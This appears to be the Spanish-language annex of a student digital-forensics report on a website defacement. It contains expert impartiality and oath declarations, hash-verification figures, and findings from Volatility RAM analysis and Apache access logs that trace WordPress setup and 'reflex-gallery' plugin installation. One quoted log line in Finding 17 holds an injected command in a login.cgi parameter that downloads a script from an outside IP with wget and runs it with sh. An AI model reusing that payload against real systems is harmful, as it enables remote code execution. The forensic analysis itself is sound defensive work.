


# Proyecto P05.2: Defacement Attack - Anexo

## Índice

1. [Declaración de abstención y tacha](#1-declaración-de-abstención-y-tacha)
2. [Juramento de promesa](#2-juramento-de-promesa)
3. [Figuras](#3-figuras)
4. [Hallazgos](#4-hallazgos)

## 1. Declaración de abstención y tacha

Nosotros, Grupo 3, con identificación _011002-A_, en calidad de Equipo Pericial Informático, declaramos formalmente lo siguiente:

1. Abstención

   No tenemos interés directo ni indirecto en los hechos objeto del presente informe pericial, ni relación alguna con las partes involucradas que pueda comprometer nuestra imparcialidad, conforme a lo establecido en la normativa _ISO-27000_.

2. Tacha

   Declaramos que no existen motivos de tacha que afecten nuestra idoneidad, independencia o credibilidad como peritos en este caso. No poseemos vínculos familiares, laborales ni de cualquier otra índole con las partes intervinientes.

3. Confirmación de Imparcialidad

   Nuestros análisis, conclusiones y opiniones periciales se fundamentan exclusivamente en las evidencias digitales recibidas y en las metodologías técnicas reconocidas por la disciplina de informática forense, sin influencia externa de ningún tipo.

En virtud de lo anterior, asumimos la responsabilidad de actuar con total objetividad y profesionalismo en la elaboración y presentación del presente informe.

## 2. Juramento de promesa

Nosotros, Grupo 3, identificados con _011002-A_, en calidad de Equipo de Peritaje Forense Informático, bajo juramento, prometemos solemnemente lo siguiente:

1. Realizar el análisis técnico del presente caso conforme a los principios de objetividad, veracidad y rigurosidad científica propios de la disciplina de informática forense.

2. Garantizar que todas las conclusiones presentadas en el informe pericial se sustenten exclusivamente en las evidencias digitales analizadas y las metodologías técnicamente válidas, sin alteraciones ni omisiones deliberadas.

3. Actuar de manera independiente e imparcial, sin recibir presiones, influencias externas o intereses personales que puedan comprometer la integridad de mi labor.

4. Cumplir con las disposiciones legales y éticas vigentes aplicables al ejercicio de la pericia forense en el marco del acuerdo, la confidencialidad de los datos y cumplimiento de los requisitos del proceso.

Declaro bajo juramento que honraré este compromiso en la ejecución de mis funciones como perito en este caso.

En Cádiz a 28 de Enero de 2025

Fdo:

## 3. Figuras

- Figura 1. Comprobación de hashes MD5

  

- Figura 2: Comprobación de hashes SHA1

  

## 4. Hallazgos

### 4.1 Memoria RAM

- Hallazgo 1: Procesos activos y jerarquía - pslist

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Parametro usado para analizar | `linux.pslist`                          |
| Contenido del fichero         | [pslist.txt](./Hallazgos/pslist.txt)    |
| Valor hash del fichero        | MD5: 1b1f6b75ca82839406544cb685da3b75   |

- Hallazgo 2: Procesos activos y jerarquía - pstree

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Parametro usado para analizar | `linux.pstree`                          |
| Contenido del fichero         | [pstree.txt](./Hallazgos/pstree.txt)    |
| Valor hash del fichero        | MD5: 1b1f6b75ca82839406544cb685da3b75   |

- Hallazgo 3: Historial de comandos

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Parametro usado para analizar | `linux.bash`                            |
| Contenido del fichero         | [bash.txt](./Hallazgos/bash.txt)        |
| Valor hash del fichero        | MD5: 4f67ddebf54ea7747842c81bce19f8d9   |

- Hallazgo 4: Procesos lanzados por comandos

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Parametro usado para analizar | `linux.psaux`                           |
| Contenido del fichero         | [psaux.txt](./Hallazgos/psaux.txt)      |
| Valor hash del fichero        | MD5: 10a928f9e4f2b163904c37c26cce8ae8   |

- Hallazgo 5: Archivos abiertos por procesos

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Parametro usado para analizar | `linux.lsof`                            |
| Contenido del fichero         | [lsof.txt](./Hallazgos/lsof.txt)        |
| Valor hash del fichero        | MD5: b47fdb539e64636becdd92235ae7ff73   |

- Hallazgo 6: Archivos cacheados en RAM

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Parametro usado para analizar | `linux.pagecache.Files`                 |
| Contenido del fichero         | [page.Files.txt](./Hallazgos/page.Files.txt)        |
| Valor hash del fichero        | MD5: 6eb9cd07bccb8aeeff7ce94c3c4cac47   |

- Hallazgo 7: Sistema de archivos cacheado

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Parametro usado para analizar | `linux.pagecache.RecoverFs`             |
| Contenido del fichero         | [page.RecoverFs.txt](./Hallazgos/page.RecoverFs.txt)        |
| Valor hash del fichero        | MD5: 28fcdbb73583a595dc4b87bb713bb52f   |

- Hallazgo 8: Adaptadores de red

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Parametro usado para analizar | `linux.ip.Addr`                         |
| Contenido del fichero         | [ip.Addr.txt](./Hallazgos/ip.Addr.txt)  |
| Valor hash del fichero        | MD5: 597176688eecb7b23b25693d3cdb1a9f   |

- Hallazgo 9: Conexiones de red

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Parametro usado para analizar | `linux.sockstat`                        |
| Contenido del fichero         | [sockstat.txt](./Hallazgos/sockstat.txt) |
| Valor hash del fichero        | MD5: 2cc29a0a1df2e5938b9db80c7bc419a5   |

- Hallazgo 10: Módulos del kernel

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Parametro usado para analizar | `linux.lsmod`                           |
| Contenido del fichero         | [lsmod.txt](./Hallazgos/lsmod.txt)      |
| Valor hash del fichero        | MD5: fb06c709ae8eeb86c5a15de12e07d6f1   |

- Hallazgo 11: Variables de entorno

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Parametro usado para analizar | `linux.envars`                          |
| Contenido del fichero         | [envars.txt](./Hallazgos/envars.txt)    |
| Valor hash del fichero        | MD5: 6ff64c5ec196643638dc29b6cd16a737   |

- Hallazgo 12: Código malicioso inyectado

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Parametro usado para analizar | `linux.malfind`                         |
| Contenido del fichero         | [malfind.txt](./Hallazgos/malfind.txt)  |
| Valor hash del fichero        | MD5: 76c44c94261f1a233df90920bb8672d0   |

### 4.2 Disco Duro

- Hallazgo 13: Instalación remota de WordPress

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Ruta de localización completa | `/var/log/apache2/access.log`           |
| Contenido del fichero         | `23.226.128.37 - - [20/Apr/2024:00:22:23 +0000] "GET /wp-admin/setup-config.php HTTP/1.1" 200` |
| MAC time                      | 20/Apr/2024:00:22:23 +0000              |

- Hallazgo 14: Acceso al panel de administración y carga de plugins

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Ruta de localización completa | `/var/log/apache2/access.log`           |
| Contenido del fichero         | `23.226.128.37 - - [20/Apr/2024:00:24:14 +0000] "POST /wp-login.php HTTP/1.1" 302` `23.226.128.37 - - [20/Apr/2024:00:24:43 +0000] "GET /wp-admin/plugin-install.php HTTP/1.1" 200` |
| MAC time                      | 20/Apr/2024:00:24:14 y 20/Apr/2024:00:24:43 +0000|

- Hallazgo 15: Instalación del plugin 'reflex-gallery'

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Ruta de localización completa | `/var/log/apache2/access.log`           |
| Contenido del fichero         | `23.226.128.37 - - [20/Apr/2024:00:24:55 +0000] "GET /wp-admin/plugin-install.php?tab=plugin-information&plugin=reflex-gallery&TB_iframe=true&width=600&height=550 HTTP/1.1" 200` |
| MAC time                      | 20/Apr/2024:00:24:55 +0000              |
| Tamaño lógico del fichero     | N/A (Fragmento del log)                 |
| Valor hash del fichero        | N/A (Fragmento del log)                 |

- Hallazgo 16: Uso del parámetro XDEBUG_SESSION_START

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Ruta de localización completa | `/var/log/apache2/access.log`           |
| Contenido del fichero         | `23.226.128.37 - - [20/Apr/2024:00:25:39 +0000] "GET / HTTP/1.1" 200 "-" "Mozilla/5.0 (...) XDEBUG_SESSION_START=phpstorm"` |
| MAC time                      | 20/Apr/2024:00:25:39 +0000              |

- Hallazgo 17: Intentos de explotación a través de login.cgi

| Campo                         | Valor                                   |
| ----------------------------- | --------------------------------------- |
| Ruta de localización completa | `/var/log/apache2/access.log`           |
| Contenido del fichero         | `197.55.45.100 - - [22/Jul/2018:11:37:31 +0000] "GET /login.cgi?cli=aa%20aa%27;wget%20http://104.244.72.82/k%20-O%20-%3E%20/tmp/k;sh%20/tmp/k%27$ HTTP/1.1" 400 0 "-" "Hello, World"`                       |
| MAC time                      | 22/Jul/2018:11:37:31 +0000              |
